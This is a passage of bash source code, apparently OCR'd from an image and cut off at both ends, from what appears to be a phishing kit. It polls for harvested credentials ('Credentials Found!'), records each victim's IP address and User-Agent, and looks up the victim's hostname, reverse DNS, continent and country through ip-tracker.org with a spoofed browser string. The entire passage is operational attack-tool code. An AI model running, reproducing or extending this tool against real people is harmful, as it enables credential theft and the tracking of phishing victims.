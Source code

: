 
if [[ -e "sites/$server/usernames.txt" ]]; then
printf "\n\e[1;93m[\e[0m*\e[1;93m]\e[0m\e[1;92m Credentials Found!\n"
catch_cred

fi
sleep 1
done 


}

catch_ip() {
touch sites/$server/saved.usernames.txt
ip=$(grep -a 'IP:' sites/$server/ip.txt | cut -d " " -f2 | tr -d '\r')
IFS=$'\n'
ua=$(grep 'User-Agent:' sites/$server/ip.txt | cut -d '"' -f2)
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Victim IP:\e[0m\e[1;77m %s\e[0m\n" $ip
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] User-Agent:\e[0m\e[1;77m %s\e[0m\n" $ua
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m %s/saved.ip.txt\e[0m\n" $server
cat sites/$server/ip.txt >> sites/$server/saved.ip.txt


if [[ -e iptracker.log ]]; then
rm -rf iptracker.log
fi

IFS='\n'
iptracker=$(curl -s -L "www.ip-tracker.org/locator/ip-lookup.php?ip=$ip" --user-agent "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.31 (KHTML, like Gecko) Chrome/26.0.1410.63 Safari/537.31" > iptracker.log)
IFS=$'\n'
continent=$(grep -o 'Continent.*' iptracker.log | head -n1 | cut -d ">" -f3 | cut -d "<" -f1)
printf "\n"
hostnameip=$(grep  -o "</td></tr><tr><th>Hostname:.*" iptracker.log | cut -d "<" -f7 | cut -d ">" -f2)
if [[ $hostnameip != "" ]]; then
printf "\e[1;92m[*] Hostname:\e[0m\e[1;77m %s\e[0m\n" $hostnameip
fi
##

reverse_dns=$(grep -a "</td></tr><tr><th>Hostname:.*" iptracker.log | cut -d "<" -f1)
if [[ $reverse_dns != "" ]]; then
printf "\e[1;92m[*] Reverse DNS:\e[0m\e[1;77m %s\e[0m\n" $reverse_dns
fi
##


if [[ $continent != "" ]]; then
printf "\e[1;92m[*] IP Continent:\e[0m\e[1;77m %s\e[0m\n" $continent
fi
##

country=$(grep -o 'Country:.*' iptracker.log | cut -d ">" -f3 | cut -d "&" -f1)
if [[ $country != "" ]]; then
printf "\e[1;92m[*] IP Country:\e[0m\e[1;77m %s\e[0m\n" $country
fi
##
